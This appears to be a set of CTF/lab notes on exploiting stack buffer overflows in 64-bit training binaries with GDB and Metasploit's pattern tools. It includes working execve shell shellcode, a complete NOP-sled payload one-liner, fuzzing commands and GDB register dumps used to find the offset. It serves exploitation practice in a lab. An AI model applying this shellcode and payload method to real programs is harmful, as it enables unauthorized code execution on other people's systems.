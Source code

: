 # GDB

## THM 64 Bit

Hint 1: Step to overflow 64-bits buffer

Step 1: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from
Metasploit)
Step 2: Read and copy the value from register RBP for the offset.
Step 3: Calculate the offset. (use pattern_offset.rb from Metasploit)
Step 4: Try control the register RIP with the following payload
Junk*(offset value) + 8 bytes of dummy
Step 5: Read the stack or register RSP to find a suitable return address.
Step 6: The general payload should be like below
Nop + shellcode + Junks + return address

Hint 2: Working shellcode

\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05

Hint 3: Running the payload with the binary

(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number)
+(return address))";cat) | ./bof64




Use python2 !

```console
Running Payload outside GDB
$ ./leave_msg $(python -c "print '\x55' * 1841 + '\x90' * 124 + '\xda\xc3\xb8\x7d\x24\xf0\x6e\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x13\x03\x3f\x37\x12\x9b\x8e\xec\x25\x87\xa3\x51\x99\x22\x41\xdf\xfc\x03\x23\x12\x7e\xf0\xf2\x1c\x40\x3a\x84\x14\xc6\x3d\xec\xd9\x38\xbe\xed\x4d\x3b\xbe\xfc\xd1\xb2\x5f\x4e\x8f\x94\xce\xfd\xe3\x16\x78\xe0\xc9\x99\x28\x8a\xbf\xb6\xbf\x22\x28\xe6\x10\xd0\xc1\x71\x8d\x46\x41\x0b\xb3\xd6\x6e\xc6\xb4' + '\x2c\xd7\xff\xff'")
```

## Commands

```console
(gdb) set disassembly-flavor intel
- Set the Intel syntax

(gdb) disassemble main
- disassemble the program's main function

(gdb) x/2000xb $esp+500
-examine 
```

## Fuzzing

```console
$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```

## Using GDB
Hello there can anyone explain me the difference between these to commands? Sometime the first one is working and sometimes only the second one 

```console
(gdb) run $(python -c 'print("A" * 650)')
(gdb) r < <(python -c 'print("A" * 650)')
```

```console
$ gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) r < <(python -c 'print("A" * 650)')
Starting program: /home/des/bof < <(python -c 'print("A" * 650)')
Enter some string:

Program received signal SIGSEGV, Segmentation fault.
0x000055555555484e in foo ()
(gdb) i r
rax            0x0      0
rbx            0x3e9    1001
rcx            0x0      0
rdx            0x0      0
rsi            0x555555554956   93824992233814
rdi            0x7ffff7dd0760   140737351845728
rbp            0x4141414141414141       0x4141414141414141
rsp            0x7fffffffe3b8   0x7fffffffe3b8
r8             0xffffffffffffffed       -19
r9             0x25e    606
r10            0x5555557564cb   93824994337995
r11            0x555555554956   93824992233814
r12            0x3e9    1001
r13            0x7fffffffe4b0   140737488348336
r14            0x0      0
r15            0x0      0
rip            0x55555555484e   0x55555555484e <foo+84>
eflags         0x10206  [ PF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

(gdb) x/xg $rsp
0x7fffffffe3b8: 0x3775413675413575
```

Create a pattern with 650 bytes, run it and check the offset with the **rsp** `0x3775413675413575`

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3775413675413575
[*] Exact match at offset 616
```
